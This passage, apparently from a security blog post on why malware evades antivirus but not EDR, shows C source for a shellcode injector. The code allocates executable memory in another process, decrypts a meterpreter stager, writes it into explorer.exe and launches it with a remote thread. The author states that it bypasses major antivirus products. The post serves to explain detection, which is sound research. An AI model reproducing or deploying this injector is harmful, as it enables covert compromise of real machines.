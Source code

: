```
    hProcess = fnOpenProcess(PROCESS_ALL_ACCESS, 0, dwPid);

    // alloc memory
    lpBuffer = fnVirtualAllocEx(hProcess, NULL, (SIZE_T)encmeter_bin_len, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    // decrypt the shellcode
    if (!DecryptShellcode())
    {
        printf("[!] Failed to decrypt shellcode\\n");
        return -1;
    }

    // write the shellcode to the process
    fnWriteProcessMemory(hProcess, lpBuffer, encmeter_bin, encmeter_bin_len, NULL);

    // start the shellcode
    hThread = fnCreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)lpBuffer, NULL, 0, NULL);
    if (hThread == INVALID_HANDLE_VALUE)
    {
        printf("[!] Failed to inject shellcode\\n");
        return -1;
    }

    printf("[+] Successfully injected shellcode\\n");

    return 0;
}
```

It's an pretty basic bit of malware that will simply inject a meterpreter stager into `explorer.exe` using well known, unsophisticated methods. Despite this it will easily bypass the detection's used by major AV vendors. It's not so lucky with EDR solutions though, as within seconds there is critical alerts flying all over the place. So whats different? Why does it beat AV yet fail miserably against EDR?
